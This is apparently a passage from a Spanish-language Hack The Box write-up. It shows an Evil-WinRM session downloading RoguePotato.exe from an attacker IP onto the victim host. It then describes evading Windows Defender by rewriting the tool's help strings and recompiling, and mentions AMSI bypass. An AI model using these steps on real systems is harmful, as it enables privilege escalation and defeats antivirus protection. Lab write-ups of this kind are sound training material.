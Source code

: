 Desde la máquina víctima, utilizo Invoke-WebRequest para descargarlo

```null
*Evil-WinRM* PS C:\Temp> iwr -uri http://10.10.16.6/RoguePotato.exe -o RoguePotato.exe
```

Al tratar de ejecutarlo, el Defender lo detecta

```null
*Evil-WinRM* PS C:\Temp> .\RoguePotato.exe
Program 'RoguePotato.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\RoguePotato.exe
+ ~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ .\RoguePotato.exe
+ ~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

Podría volver a utilizar el Bypass-4MSI, pero para ver otras formas de evadir el Defender, voy a lo complicado

En la máquina Windows, busco el panel de ayuda del binario, para borrar y escribir cualquier otra cosa. En muchas ocasiones, Windows Defender bloquea ciertos programas según los nombres de funciones, cadenas de caracteres imprimibles o comentarios

Para ello me dirijo al comienzo del programa, en la función del panel de ayuda

<img src="/writeups/assets/img/APT-htb/15.png" alt="">

Y quedaría todo muy simplificado

```null
void Usage()
{
	printf("\n\n\tCualquier cosa\n\n\n");
}
```

Vuelvo a compilar, ejecutar y transferirlo a la máquina víctima
